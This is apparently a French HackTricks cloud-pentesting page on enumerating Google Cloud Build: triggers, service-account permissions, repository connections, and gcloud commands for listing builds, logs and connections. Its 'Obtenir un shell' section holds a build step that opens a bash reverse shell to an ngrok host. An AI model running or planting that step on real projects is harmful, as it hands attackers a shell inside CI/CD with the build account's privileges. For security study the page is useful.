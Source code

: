 # GCP - Énumération de Cloud Build

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informations de base

Google Cloud Build est une plateforme CI/CD gérée qui **automatise les processus de construction et de déploiement de logiciels**, en s'intégrant avec des **dépôts de code source** et en prenant en charge un large éventail de langages de programmation. Elle **permet aux développeurs de construire, tester et déployer du code automatiquement** tout en offrant la flexibilité de personnaliser les étapes de construction et les flux de travail.

Chaque déclencheur Cloud Build est **lié à un dépôt Cloud ou directement connecté à un dépôt externe** (Github, Bitbucket et Gitlab).

{% hint style="success" %}
Je n'ai trouvé aucun moyen de voler le jeton Github/Bitbucket d'ici ou des dépôts Cloud car lorsque le dépôt est téléchargé, il est accédé via une URL [https://source.cloud.google.com/](https://source.cloud.google.com/) et Github n'est pas accédé par le client.
{% endhint %}

### Événements

Le Cloud Build peut être déclenché si :

* **Push sur une branche** : Spécifiez la branche
* **Push d'un nouveau tag** : Spécifiez le tag
* **Pull request** : Spécifiez la branche qui reçoit la PR
* **Invocation manuelle**
* **Message Pub/Sub** : Spécifiez le sujet
* **Événement Webhook** : Exposera une URL HTTPS et la requête doit être authentifiée avec un secret

### Exécution

Il y a 3 options :

* Un yaml/json **spécifiant les commandes** à exécuter. Habituellement : `/cloudbuild.yaml`
* Seul celui qui peut être spécifié "en ligne" dans la console web et dans le cli
* Option la plus courante
* Pertinent pour un accès non authentifié
* Un **Dockerfile** à construire
* Un **Buildpack** à construire

### Permissions SA

Le **compte de service a le scope `cloud-platform`**, il peut donc **utiliser tous les privilèges.** Si **aucun SA n'est spécifié** (comme lors de la soumission), le **SA par défaut** `<proj-number>@cloudbuild.gserviceaccount.com` sera **utilisé.**

Par défaut, aucune permission n'est accordée, mais il est assez facile d'en donner :

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Approbations

Il est possible de configurer un Cloud Build pour **exiger des approbations pour l'exécution des constructions** (désactivé par défaut).

### Connexions & Dépôts

Des connexions peuvent être créées sur :

* **GitHub** : Il affichera une invite OAuth demandant la permission de **obtenir un jeton Github** qui sera stocké dans le **Secret Manager.**
* **GitHub Enterprise** : Il demandera d'installer une **GithubApp**. Un **jeton d'authentification** de votre hôte GitHub Enterprise sera créé et stocké dans ce projet en tant que secret **Secret Manager**.
* **GitLab / Enterprise** : Vous devez **fournir le jeton d'accès API et le jeton d'accès API en lecture** qui seront stockés dans le **Secret Manager.**

Une fois une connexion générée, vous pouvez l'utiliser pour **lier des dépôts auxquels le compte Github a accès**.

Cette option est disponible via le bouton :

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Notez que les dépôts connectés avec cette méthode sont **uniquement disponibles dans les déclencheurs utilisant la 2ème génération.**
{% endhint %}

### Connecter un dépôt

Ce n'est pas la même chose qu'une **`connexion`**. Cela permet **différentes** manières d'obtenir **l'accès à un dépôt Github ou Bitbucket** mais **ne génère pas un objet de connexion, mais cela génère un objet de dépôt (de 1ère génération).**

Cette option est disponible via le bouton :

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Stockage

Parfois, Cloud Build va **générer un nouveau stockage pour stocker les fichiers pour le déclencheur**. Cela se produit par exemple dans l'exemple que GCP offre avec :
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Un bucket Storage nommé [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) est créé pour stocker un `.tgz` avec les fichiers à utiliser.

### Obtenir un shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Énumération

Vous pourriez trouver **des informations sensibles dans les configurations de build et les journaux**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Élévation de privilèges

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Accès non authentifié

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post-exploitation

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-moi** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
